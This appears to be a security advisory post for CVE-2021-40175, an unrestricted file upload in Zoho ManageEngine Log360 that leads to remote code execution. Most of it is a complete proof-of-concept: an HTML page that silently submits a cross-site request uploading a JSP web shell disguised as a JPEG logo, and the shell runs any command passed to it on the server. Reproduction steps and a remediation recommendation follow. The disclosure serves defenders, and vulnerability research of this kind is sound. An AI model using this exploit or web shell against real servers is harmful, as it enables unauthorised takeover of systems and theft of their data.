 ```yaml
---
layout: post
title:  "Zoho ManageEngine Log360 - Remote Code Execution via Arbitrary File Upload"
tag: advisory
excerpt_separator: <!--more-->

---
```


Zoho ManageEngine Log360 before Build 5219 allows unrestricted file upload with resultant remote code execution.  
<!--more-->

### **Identifiers**
 - CVE-2021-40175

### **Affected versions**
 - 5.2.1

### **Affected Instance(s)**
 - /RestAPI/WC/ADSPersonalize?mTCall=updatePersonalizeSettings

### **Advisory URL**
 - https://www.manageengine.com/log-management/readme.html#Build%205219

### **Technical details**
Zoho ManageEngine Log360 application do not validate the file content-type while uploading the logo/icon files from admin panel. This allows an authenticated attacker to execute arbitrary code on the server by uploading jsp files.



### **Impact**:
As the endpoint also does not implement CSRF protection, the above attack can be easily carried out as 1-click remote code execution using the following exploit code.

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/127.0.0.1:8095\/RestAPI\/WC\/ADSPersonalize?mTCall=updatePersonalizeSettings", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------14802732823662");
        xhr.withCredentials = true;
        var body = "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"LOGO_PATH\"; filename=\"shell.jpg.jsp\"\r\n" + 
          "Content-Type: image/jpeg\r\n" + 
          "\r\n" + 
          "\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01\x01\x01\x01,\x01,\x00\x00\xff\xe1\x00fExif\x00\x00MM\x00*\x00\x00\x00\x08\x00\x04\x01\x1a\x00\x05\x00\x00\x00\x01\x00\x00\x00\x3e\x01\x1b\x00\x05\x00\x00\x00\x01\x00\x00\x00F\x01(\x00\x03\x00\x00\x00\x01\x00\x02\x00\x00\x011\x00\x02\x00\x00\x00\x10\x00\x00\x00N\x00\x00\x00\x00\x00\x00\x01,\x00\x00\x00\x01\x00\x00\x01,\x00\x00\x00\x01paint.ne\x84\xff\x00\xf0\xc3\xdf\xf0\x8f\x7f\xc2\xcf\xf8\x0f\xf1\x7f\xe1\xe7\xf6\xff\x00\xfc4\xb7\xf6\xb7\xf6\x1f\xfc&\xbf\x0f\xbcC\xe1\xaf\xed\x8f\xec\xaf\xf8P\x1ag\xf6\x9f\xf6g\xf6\x9f\xdb\x7f\xb3\xff\x00\xb4\xb4\xff\x00\xb6y\x1ff\xfbm\xa7\x99\xe7\xc6P\x07\xff\xd9\r\n" + 
          "\x3c%@ page import=\"java.util.*,java.io.*\"%\x3e\r\n" + 
          "\x3c%\r\n" + 
          "%\x3e\r\n" + 
          "\x3cHTML\x3e\x3cBODY\x3e\r\n" + 
          "Commands with JSP\r\n" + 
          "\x3cFORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"\x3e\r\n" + 
          "\x3cINPUT TYPE=\"text\" NAME=\"cmd\"\x3e\r\n" + 
          "\x3cINPUT TYPE=\"submit\" VALUE=\"Send\"\x3e\r\n" + 
          "\x3c/FORM\x3e\r\n" + 
          "\x3cpre\x3e\r\n" + 
          "\x3c%\r\n" + 
          "if (request.getParameter(\"cmd\") != null) {\r\n" + 
          "    out.println(\"Command: \" + request.getParameter(\"cmd\") + \"\x3cBR\x3e\");\r\n" + 
          "    Process p;\r\n" + 
          "    if ( System.getProperty(\"os.name\").toLowerCase().indexOf(\"windows\") != -1){\r\n" + 
          "        p = Runtime.getRuntime().exec(\"cmd.exe /C \" + request.getParameter(\"cmd\"));\r\n" + 
          "    }\r\n" + 
          "    else{\r\n" + 
          "        p = Runtime.getRuntime().exec(request.getParameter(\"cmd\"));\r\n" + 
          "    }\r\n" + 
          "    OutputStream os = p.getOutputStream();\r\n" + 
          "    InputStream in = p.getInputStream();\r\n" + 
          "    DataInputStream dis = new DataInputStream(in);\r\n" + 
          "    String disr = dis.readLine();\r\n" + 
          "    while ( disr != null ) {\r\n" + 
          "    out.println(disr);\r\n" + 
          "    disr = dis.readLine();\r\n" + 
          "    }\r\n" + 
          "}\r\n" + 
          "%\x3e\r\n" + 
          "\x3c/pre\x3e\r\n" + 
          "\x3c/BODY\x3e\x3c/HTML\x3e\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"BROWSER_TITLE\"\r\n" + 
          "\r\n" + 
          "ManageEngine Log360\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"FAVICON_PATH\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"ENABLE_FORGOT_PWD\"\r\n" + 
          "\r\n" + 
          "true\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"SELECT_LANGUAGE\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"TIME_ZONE\"\r\n" + 
          "\r\n" + 
          "Asia/Muscat\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"DATE_TIME_FORMAT\"\r\n" + 
          "\r\n" + 
          "yyyy/MM/dd HH:mm:ss\r\n" + 
          "-----------------------------14802732823662\r\n" + 
          "Content-Disposition: form-data; name=\"THEME_COLOR\"\r\n" + 
          "\r\n" + 
          "green\r\n" + 
          "-----------------------------14802732823662--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
```



### **Steps to reproduce**
* Execute the POC code with authenticated admin session and observe that a jsp file is uploaded to /images/adsf/common/logos/.

* Upon accessing the uploaded JSP file, the application executes arbitrary code.
  ![](/assets/images/CVE-2021-40175/1.png)

### **Recommendation**
It is recommended to only allow white-listed file extensions to be uploaded on the server. Also store the images outside of the web root with disabled jsp file execution permissions.